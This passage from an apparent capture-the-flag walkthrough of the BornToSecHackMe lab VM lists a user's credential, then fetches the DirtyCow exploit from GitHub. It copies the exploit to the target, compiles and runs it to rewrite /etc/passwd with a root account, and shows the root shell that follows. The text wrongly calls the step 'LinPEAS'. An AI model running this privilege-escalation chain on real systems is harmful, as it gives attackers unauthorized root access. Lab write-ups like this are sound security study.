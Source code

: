 
















### The First Alternative: DirtyCow

As laurie, with the credentials:
```
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```
we can launch LinPEAS:
```
┌──(fab㉿kali)-[~]
└─$ wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c

┌──(fab㉿kali)-[~]
└─$ scp dirty.c laurie@192.168.56.101:~
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.56.101's password:
dirty.c                                                                               100% 4815     1.4MB/s   00:00

┌──(fab㉿kali)-[~]
└─$
```
Once the `.c` file is in the remote system, we can compile and execute it with a password of our choice:
```
laurie@BornToSecHackMe:~$ ls
bomb  dirty.c  README
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
laurie@BornToSecHackMe:~$ ls
bomb  dirty  dirty.c  README
laurie@BornToSecHackMe:~$ chmod +x dirty
laurie@BornToSecHackMe:~$ ./dirty swag
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: swag
Complete line:
firefart:fii3KM0hiSg7s:0:0:pwned:/root:/bin/bash

mmap: b7fda000
^C
laurie@BornToSecHackMe:~$ su firefart
Password:
firefart@BornToSecHackMe:/home/laurie# whoami
firefart
firefart@BornToSecHackMe:/home/laurie# cd /root
firefart@BornToSecHackMe:~# ls
README
firefart@BornToSecHackMe:~# cat README
CONGRATULATIONS !!!!
To be continued...
```